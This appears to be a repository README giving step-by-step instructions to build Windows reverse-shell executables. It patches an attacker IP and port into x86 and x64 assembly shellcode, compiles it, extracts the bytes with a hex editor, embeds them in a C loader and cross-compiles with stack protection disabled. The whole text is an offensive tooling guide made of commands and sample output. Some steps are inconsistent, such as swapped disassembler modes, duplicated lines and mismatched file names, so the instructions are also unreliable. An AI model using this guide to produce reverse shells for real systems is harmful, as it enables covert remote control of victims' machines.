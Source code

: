 # Dreg Shells Guide

## Dependecies

```bash
apt-get install gcc mingw-w64 nasm -y
```

## Apps used

- [010 Editor](https://www.sweetscape.com/010editor/)

## Reverse shell Assembly x86
---

Firts you will need to change the ip and the port in the shellcode, to do this you will be using the [genipport.sh](/genipport.sh).

In the ip line (line 24) and the port line (line 25) with your ip and your port. Then execute the script and the output it's going to be like the following: 
```bash
root {debian} $ ./genipport.sh
ip: 127.0.0.1
port: 4444
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
syslinux-utils is already the newest version (3:6.04~git20190206.bf6db5b4+dfsg1-3+b1).
0 upgraded, 0 newly installed, 0 to remove and 0 not upgraded.
converting IP....
converting: 7F000001
endian: 0100007F
IP converted: FEFFFF80
converting PORT....
converting: 115C
endian: 5C11
port converted: A3EE
```

You will be geting the "IP converted" and the "port converted" output and and you will have to put it with a 0x each of the outputs in the following lines of the shellcode.

```assembly
push dword 0x77D23CCC ; line 223 
push word 0xA3EE ; line 225
```
And making the changes, this is how the two lines "with my output" would look like.
```assembly
push dword 0xFEFFFF80 ; line 223 
push word 0xA3EE ; line 225
```
The next thing we will do is compile the assembler file to an object file with the following command:
```bash
nasm -f win32 reverse_asm.asm -o reverse_shell.o
```
After compiling to an object file we will use the 010 editor and add the file to the editor we will look where the shellcode begins. How?

![Alt text](/images/v8YjDpT.png)

Here to know where it starts we will select a part and look for the beginning of the program before compiling.

```assembly
pushfd
```

To know if it agrees we will click on the tools section and then to dissembler

To know if it agrees we will click on the tools section and then dissembler. Then we will choose the section of X86(64-Bit) and click dissamble.

![Alt text](/images/BWJenLL.png)

And this panel will appear, and we will look in Value for the string that we mentioned before "pushfd".

![Alt text](/images/fCEEq3q.png)

From then on we can select everything since there will be no problem. When we have everything selected we will copy it as C code.

![Alt text](/images/mTFErYK.png)

When we have it copied, we will change the shellcode of the "reverse_c.c" file for the one we have in the clipboard including the function name throughout the code.

Then we will compile to an exe file with the following command and our reverse shell will be ready.

```bash
i686-w64-mingw32-gcc -fno-stack-protector -o test.exe test.c
```

---
## Reverse shell Assembly x64

Firts you will need to change the ip and the port in the shellcode, to do this you will be using the [genipport.sh](/genipport.sh).

In the ip line (line 24) and the port line (line 25) with your ip and your port. Then execute the script and the output it's going to be like the following: 
```bash
root {debian} $ ./genipport.sh
ip: 127.0.0.1
port: 4444
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
syslinux-utils is already the newest version (3:6.04~git20190206.bf6db5b4+dfsg1-3+b1).
0 upgraded, 0 newly installed, 0 to remove and 0 not upgraded.
converting IP....
converting: 7F000001
endian: 0100007F
IP converted: FEFFFF80
converting PORT....
converting: 115C
endian: 5C11
port converted: A3EE
```

You will be geting the "IP converted" and the "port converted" output and and you will have to put it with a 0x each of the outputs in the following lines of the shellcode.

```assembly
push dword 0x77D23CCC ; line 244
push word 0xA3EE ; line 248
```
And making the changes, this is how the two lines "with my output" would look like.
```assembly
push dword 0xFEFFFF80 ; line 244
push word 0xA3EE ; line 248
```
The next thing we will do is compile the assembler file to an object file with the following command:
```bash
nasm -f win64 reverse_asm.asm -o reverse_shell.o
```
After compiling to an object file we will use the 010 editor and add the file to the editor we will look where the shellcode begins. How?

![Alt text](/images/v8YjDpT.png)

Here to know where it starts we will select a part and look for the beginning of the program before compiling.

Here to know where it starts we will select a part and look for the beginning of the program before compiling.

```assembly
sub rsp, 0x30
```

To know if it agrees we will click on the tools section and then dissembler. Then we will choose the section of X86(32-Bit) and click dissamble.

![Alt text](/images/hTAv7CY.png)

And this panel will appear, and we will look in Value for the string that we mentioned before "sub rsp, 0x30".

![Alt text](/images/fCEEq3q.png)

From then on we can select everything since there will be no problem. When we have everything selected we will copy it as C code.

![Alt text](/images/mTFErYK.png)

When we have it copied, we will change the shellcode of the "reverse_c64.c" file for the one we have in the clipboard including the function name throughout the code.

Then we will compile to an exe file with the following command and our reverse shell will be ready.

```bash
x86_64-w64-mingw32-gcc -fno-stack-protector -o test.exe test.c
```
